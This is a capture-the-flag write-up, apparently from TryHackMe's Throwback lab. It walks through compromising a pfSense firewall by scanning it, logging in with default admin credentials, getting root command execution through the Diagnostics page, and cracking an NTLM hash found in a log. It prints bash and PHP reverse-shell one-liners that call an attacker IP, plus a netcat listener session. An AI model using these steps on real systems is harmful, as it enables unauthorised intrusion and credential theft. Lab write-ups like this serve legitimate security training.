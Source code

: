 

# recon
```console
$ sudo ./pymap.py -t 10.200.11.138 -A
kali@kali:~$ sudo /opt/pymap.py -t 10.200.11.138
                                                    
@@@@@@@   @@@ @@@  @@@@@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@  @@@ @@@  @@@@@@@@@@@  @@@@@@@@  @@@@@@@@  
@@!  @@@  @@! !@@  @@! @@! @@!  @@!  @@@  @@!  @@@  
!@!  @!@  !@! @!!  !@! !@! !@!  !@!  @!@  !@!  @!@  
@!@@!@!    !@!@!   @!! !!@ @!@  @!@!@!@!  @!@@!@!   
!!@!!!      @!!!   !@!   ! !@!  !!!@!!!!  !!@!!!    
!!:         !!:    !!:     !!:  !!:  !!!  !!:       
:!:         :!:    :!:     :!:  :!:  !:!  :!:       
 ::          ::    :::     ::   ::   :::   ::       
 :           :      :      :     :   : :   :        
Author: kuroHat
Github: https://github.com/gu2rks


[+] Port scanning...
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
[+] Enumerating open ports...

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-title: Did not follow redirect to https://10.200.11.138/
|_https-redirect: ERROR: Script execution failed (use -d to debug)


PORT   STATE SERVICE VERSION
53/tcp open  domain  (generic dns response: REFUSED)
SF-Port53-TCP:V=7.80%I=7%D=11/2%Time=5FA07007%P=x86_64-pc-linux-gnu%r(DNSS
SF:tatusRequestTCP,E,"\0\x0c\0\0\x90\x05\0\0\0\0\0\0\0\0");


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|_  4096 38:04:a0:a1:d0:e6:ab:d9:7d:c0:da:f3:66:bf:77:15 (RSA)


PORT    STATE SERVICE VERSION
443/tcp open  https?
```
- http -> redirect to https -> **pfSense**

## web 443 pfSense
- admin credential `admin:pfsense` got from googling default credential [link](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html)

Most of the time admin panel have a fuction that allow admin to execute a command on the server. I guess pfsense might offer it to. I then google `pfsense execute command on web` and it give me this [link](https://docs.netgate.com/pfsense/en/latest/diagnostics/command-prompt.html), BINGO!!

So let visit Diagnostics -> command-prompt. It seem like it allows us to excetue both php+shell commad. Let try if php work by executing 
`system('ping <kali_ip> -c 5');`. On kali run `tcpdump` to capture some `icmp` packets.
```console
kali@kali:~$ sudo tcpdump -i tun0 icmp
18:30:36.545831 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 2, length 64
18:30:36.545856 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 2, length 64
18:30:37.579047 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 3, length 64
18:30:37.579096 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 3, length 64
18:30:38.695756 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 4, length 64
18:30:38.695812 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 4, length 64
```
And ofc, it works!! btw, there is no need to do this but I just try to make it as a habbit. some time you can see result from executing code, this is good way to try if it work. I learned from **IPPSEC**.

Also, we can execute `Execute Shell Command` let try `id`
```
uid=0(root) gid=0(wheel) groups=0(wheel)
```
Wow, pfsense if run as root... what a luck. let spawn a reverse shell! I tired different reverse shell from [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)
```
bash -i >& /dev/tcp/10.50.9.18/6969 0>&1
php -r '$sock=fsockopen("10.50.9.18",6969);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.50.9.18",6969);system("/bin/sh -i <&3 >&3 2>&3");'
```
none of the above works. So I use php-reverse-shell.php which is pre-install in kali. Just copy+paste the code `Execute PHP Commands`. On kali
```console
[10.50.9.18]-kali@kali:~/THM/throwback$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.50.9.18] from (UNKNOWN) [10.200.11.138] 64182
FreeBSD THROWBACK-FW01.THROWBACK.local 11.3-STABLE FreeBSD 11.3-STABLE #239 885b1ed26b6(factory-RELENG_2_4_5): Tue Jun  2 17:53:42 EDT 2020     root@buildbot1-nyi.netgate.com:/build/factory-crossbuild-245-amd64/obj/amd64/kkVaWThR/build/factory-crossbuild-245-amd64/sources/FreeBSD-src/sys/pfSense  amd64
11:43PM  up 27 mins, 2 users, load averages: 0.50, 0.55, 0.49
USER       TTY      FROM                                      LOGIN@  IDLE WHAT
root       u0       -                                        11:18PM    25 /bi 
root       v0       -                                        11:18PM    25 /bi 
uid=0(root) gid=0(wheel) groups=0(wheel)
sh: can't access tty; job control turned off
```
now go grab root flag.


There are 1 more flag on this firewall. from THM flag submission said *log flag*. 
```console
# pwd
/
# cd /var/log
# ls
dhcpd.log
dmesg.boot
filter.log
flag.txt
gateways.log
ipsec.log
l2tps.log
lastlog
login.log
nginx
nginx.log
ntp
ntpd.log
openvpn.log
poes.log
portalauth.log
ppp.log
relayd.log
resolver.log
routing.log
system.log
userlog
utx.lastlogin
utx.log
vpn.log
watchdogd.log
wireless.log
```
there are 2 interesting logs here
1. flag.txt
2. login.log
let `cat` it then
```console
# cat flag.txt
TBH{flag}
# cat login.log
Last Login 8/9/2020 15:51 -- HumphreyW:1c13639dba96c7b53d26f7d00956a364
```
Using [crackstation](https://crackstation.net/) to crack the hash
`1c13639dba96c7b53d26f7d00956a364	NTLM	securitycenter`